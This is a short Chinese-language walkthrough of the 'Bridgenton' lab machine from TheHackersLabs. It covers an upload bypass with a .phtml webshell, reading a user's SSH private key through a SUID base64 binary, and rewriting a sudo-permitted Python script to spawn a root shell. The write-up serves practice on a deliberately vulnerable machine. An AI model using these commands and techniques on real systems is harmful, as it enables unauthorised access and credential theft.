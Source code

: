# Bridgenton

2025.03.24 https://thehackerslabs.com/bridgenton/

[video](https://www.bilibili.com/video/BV1Q3oQY1EdA/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

注册http://192.168.5.39/registro.php用户，提示说只能上传图片格式的结尾，但是上传图片后不对，尝试上传其他结尾，发现结尾.phtml 能上传 webshell 到 /uploads 直接获得 www-data 的 shell。

suid 发现 james 的/usr/bin/base64 但 www-data 无法访问 james 目录，通过 base64 读取 user flag:

```
www-data@Bridgenton:/home$ /usr/bin/base64 /home/james/user.txt | /usr/bin/base64 -d
8e18fa38b2b24be6999bf8bf00a47cb5
```

这个 suid 能读取 james 的文件，尝试读取 id_rsa 能拿到

```
www-data@Bridgenton:/home$ /usr/bin/base64 /home/james/.ssh/id_rsa | /usr/bin/base64 -d
```

id_rsa 有密码 bowwow 对 james 进行登陆。

sudo -l 显示 (root) NOPASSWD: /usr/bin/python3 /opt/example.py

发现 opt 目录对 james 有写权限，直接删除 py，然后重建 py 文件：

```
rm -rf /opt/example.py
echo 'import os; os.system("/bin/bash")' > /opt/example.py
sudo -u root /usr/bin/python3 /opt/example.py
```

拿到 root flag：

```
root@Bridgenton:~# cat root.txt
73f441f6bf5ed73b61dc53d317d51478
```
